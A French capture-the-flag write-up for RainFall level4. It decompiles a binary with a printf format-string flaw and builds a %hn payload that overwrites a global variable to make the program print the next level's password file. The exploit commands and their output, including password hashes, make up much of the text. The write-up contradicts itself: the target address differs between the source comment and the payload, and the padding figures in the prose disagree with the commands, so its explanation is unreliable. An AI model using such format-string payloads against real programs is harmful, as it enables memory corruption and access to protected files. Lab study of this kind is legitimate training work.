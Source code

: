 # level4 :

pass : `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

## Source :

```c
#include <stdio.h>

int m = 0;  // 0x08049814

void	p(char *str) {  // 0x08048444
	printf(str);
}

void	n() {  // 0x08048457
	char buf[520];  // ebp-0x208 | esp+0x10

	fgets(buf, 512, stdin);  // 0x200 
	p(buf);
	if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
	}
}

void	main() {  // 0x080484a7
	n();
}
```

## Recherche :

> On va vouloir remplacer la valeur de `m` pour être égale à `0x1025544`.



Comme pour le level3, on cheche l'offset qui est cette fois à `12`

```
kali@kali:~/rainfall$ ./script.sh ./level4
Index 0
Index 1
Index 2
Index 3
Index 4
Index 5
Index 6
Index 7
Index 8
Index 9
Index 10
Index 11
Index 12
AAAA41414141
```

Cette fois on veut :

- écrire à l'addresse `0x08049810`
- l'offset pour y écrire est `12`
- la valeur que l'on veut mettre est `0x1025544`

Dans l'execice précédent, on pouvait écrire les `0x40` caractères, mais maintenant c'est beaucoup plus. On va donc utiliser 

### Eploiter avec les formats modifiers `%hn` et `%<size>x`

Pour mettre cette valeur, on utilisera `%hn` qui permet d'écrire sur `2` octets.

Donc `0x5544` à l'adresse `0x08049810` et `0x0102` à l'adresse `0x08049812`.
Comme `0x5544` > `0x0102`, on les écrira dans l'ordre inverse.

- `0x0102` - `8 bits d'adresses` = `250`
- `0x5544` - `0x0102` = `21570`

On a doit dont décalé de 513 - 8 = 505 pour le second, puis de 17493 - 513 = 16980 pour le premier.

`./level4 < <(python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%16980x%13$hn"')`

## Exploit :

```
level4@RainFall:~$ (python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn"'; cat) | ./level4

.
.
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
